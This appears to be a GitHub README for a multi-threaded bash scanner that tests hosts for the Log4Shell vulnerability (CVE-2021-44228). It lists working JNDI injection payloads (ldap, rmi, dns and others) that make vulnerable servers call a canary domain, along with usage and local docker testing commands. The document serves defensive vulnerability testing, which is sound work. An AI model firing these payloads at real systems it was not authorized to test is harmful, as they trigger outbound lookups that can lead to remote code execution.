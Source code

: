 # log4j-scan-turbo (Multi-threaded scanner)
Test for the log4j vulnerability ( CVE-2021-44228 ) across your external footprint.

## Details

- Pure bash scanner
- Uses nohup and curl to achieve multiple threads
- Curl configured to use a 3 second client to server maximum and six second total time setting.

This is a very fast, multi-threaded, log4j vulnerability tester.

## Example Use
```
git clone https://github.com/ssstonebraker/log4j-scan-turbo
cd log4j-scan-turbo
sudo ./log4j_CVE-2021-44228_tester.sh <INPUT_FILE> <CANARY_DOMAIN>
```

## Payloads
```
Payloads:
${jndi:ldap://<canary_domain>/a}
${jndi:ldaps://<canary_domain>/a}
${jndi:rmi://<canary_domain>/a}
${jndi:dns://<canary_domain>/a}
${jndi:corba://<canary_domain>/a}
${jndi:iiop://<canary_domain>/a}
${jndi:nis://<canary_domain>/a}
${jndi:nds://<canary_domain>/a}
```
## Methods
HTTP GET and HTTP POST are called on TCP 80/443 for each ip/domain provided in the input file

## Requirements
You will need:
1. An inputfile with a list of IP addresses/domains (one per line)
2. A Canary Token (see below)

### Input File
Your input file should consist of IP address and/or Fully Qualified Domain Names

Example:
```
foo.com
bar.com
10.1.100.50
127.0.0.1:5000
```

### Get a Canary Domain 
1. Browse to https://canarytokens.org/generate#
2. Selection Option "DNS"
3. Input Email Address
4. Input Comment
5. Hit "Create my Canary Token"

<img width="973" alt="image" src="https://user-images.githubusercontent.com/774940/145664156-fee98504-0a18-427c-8213-5f3818864a9a.png">

## False Positives
If you use egress SSL decryption + inspection this script may trigger false positives (as your IDS may before lookups on the canary token.. thus triggering it).

If this is the case then you are better off running it from a cloud instance that is not being inspected.

## Local Testing
Spin up a docker image of a vulnerable server:
```
docker run --name vulnerable-app -p 555:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
 
Use the script to test locally:
```
echo "localhost:555" > ips.txt
sudo ./log4j-scan-turbo.sh ips.txt <canary_domain>
```




